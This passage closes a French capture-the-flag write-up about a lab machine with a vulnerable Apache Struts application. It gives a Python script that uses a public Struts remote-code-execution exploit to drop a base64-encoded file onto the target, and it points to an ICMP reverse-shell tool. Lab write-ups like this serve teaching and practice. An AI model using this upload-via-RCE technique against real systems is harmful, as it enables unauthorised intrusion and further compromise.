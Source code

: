 Bonux
-----

Pour obtenir un shell plus tôt sur ce CTF on aurait pu déposer d'un shell ICMP [comme celui-ci](https://github.com/inquisb/icmpsh). Il n'en reste pas moins qu'il faut être capable de déposer un fichier sur la machine.  

J'ai écrit un script qui effectue cette opération en encodant un fichier en base64 et l'envoi ligne par ligne sur la machine cible avant de le décoder :  

```python
import os
import sys

filename = sys.argv[1]
dest = "/tmp/{}".format(os.path.basename(filename))

os.system("rm /tmp/yolo 2>/dev/null; base64 '{}' > /tmp/yolo".format(filename))
os.system('python 41570.py http://10.10.10.64/Monitoring/example/HelloWorld.action "rm /tmp/yolo 2>/dev/null; touch /tmp/yolo"')
with open("/tmp/yolo") as fd:
    for line in fd:
        line = line.strip()
        os.system('python 41570.py http://10.10.10.64/Monitoring/example/HelloWorld.action "echo {} >> /tmp/yolo"'.format(line))

os.system('python 41570.py http://10.10.10.64/Monitoring/example/HelloWorld.action "base64 -d /tmp/yolo > {}"'.format(dest))
```

Le code est un peu crado (beaucoup d'appel à *system())*, il fait appel [à un exploit](https://www.exploit-db.com/exploits/41570/) pour la même faille *Struts*.  

Ça m'a ainsi permis d'uploader un [LinEnum](https://github.com/rebootuser/LinEnum) qui ne m'a finalement rien rapporté.  

That's about it
---------------

[Comme dirait Garbage](https://www.youtube.com/watch?v=0TP6GoERYPo)...   

Ce fut un CTF intéressant de part ses règles de pare feu et son énumération locale qui a été assez laborieuse :p

*Published September 01 2018 at 18:56*

